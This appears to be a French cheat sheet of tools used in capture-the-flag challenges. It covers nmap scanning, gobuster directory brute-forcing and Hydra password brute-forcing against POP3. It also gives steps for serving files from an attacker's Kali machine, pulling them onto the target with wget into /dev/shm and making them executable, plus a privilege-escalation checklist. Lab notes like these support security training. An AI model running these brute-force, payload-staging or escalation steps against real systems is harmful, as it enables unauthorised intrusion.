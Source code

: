 ```yaml
---
description: Outils utilisés dans la résolution des challenges.
---
```


# Tools

## nmap

```shell-session
nmap $IP -A -p- -oN nmap.txt -T4
```

## gobuster

```shell-session
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt" -u $IP -t50
```

## Hydra

```
hydra -l <user>  -P /usr/share/wordlists/rockyou.txt pop3://$IP -s <port> -t 64
```

```
hydra -l <user>  -P /usr/share/wordlists/fasttrack.txt pop3://$IP -s <port> -t 64 
```

## Transfert de fichiers

Pour transférer des fichiers depuis la machine Kali vers la machine cible:

1. sur la machine Kali
   1. aller dans le répertoire contenant les fichiers à transférer
   2. `python3 -m http.server`
2. sur la machine cible
   1. aller dans le répertoire /dev/shm
   2. `wget < kali tun0 IP>:8000/fichier.à.transférer`
   3. rendre les fichiers exécutables avec `chmod +x`

## Privilege Escalation

Voici la méthode générique que j'utilise pour trouver les possibilités de 'privilege escalation'. Cette méthode est en partie basée sur l'article Linux [Privilege Escalation: Automated Script](https://www.hackingarticles.in/linux-privilege-escalation-automated-script/).

1. sudo -l
2. [suid3num.py](https://github.com/Anon-Exploiter/SUID3NUM/tree/master)
3. [les.sh](https://github.com/The-Z-Labs/linux-exploit-suggester)
4. [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
